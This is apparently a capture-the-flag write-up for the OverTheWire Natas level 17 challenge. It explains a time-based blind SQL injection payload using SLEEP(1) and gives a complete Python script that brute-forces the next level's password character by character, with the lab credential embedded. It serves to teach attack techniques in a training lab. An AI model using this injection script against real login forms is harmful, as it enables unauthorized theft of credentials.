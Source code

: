 ```SQL
natas18" AND password LIKE BINARY "' + "".join(seen_password) + ch +'%" AND SLEEP(1) #
```

as we know `username && passw???d && sleep(1)` if 2nd argument is true , response will delay for 1 second by `SLEEP(1)`

```py
from time import *
start_time = time()
responese -> post sql injection
end_time = time()

diff = end_time - start_time
as we know if brute forcing char is starting char of flag ,
we can append that character in seen_password by if (diff > 1)
```

Let write full python script

```py
import requests
import os,sys
from string import *
from time import *

cmd = ""
os_name = sys.platform
if os_name == 'win32':
	cmd = "cls"
elif os_name == 'linux' or os_name == 'darwin':
	cmd =  "clear"

characters = ascii_letters + digits
username = "natas17"
password = "XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd"

url = "http://%s.natas.labs.overthewire.org"%username
session = requests.Session()
seen_password = list()

while (len(seen_password) < 32):
	for ch in characters:
		start_time = time()
		print("Trying char :" , "".join(seen_password) + ch )
		query = 'natas18" AND password LIKE BINARY "' + "".join(seen_password) + ch +'%" AND SLEEP(1) #'
		response = session.post(url , data = { "username" : query } , auth=(username,password))
		content = response.text
		end_time = time()
		diff = end_time - start_time
		if (diff > 1):
			seen_password.append(ch)
		os.system(cmd)

flag = "".join(seen_password)
print("[+] Gotcha ",flag)

```

---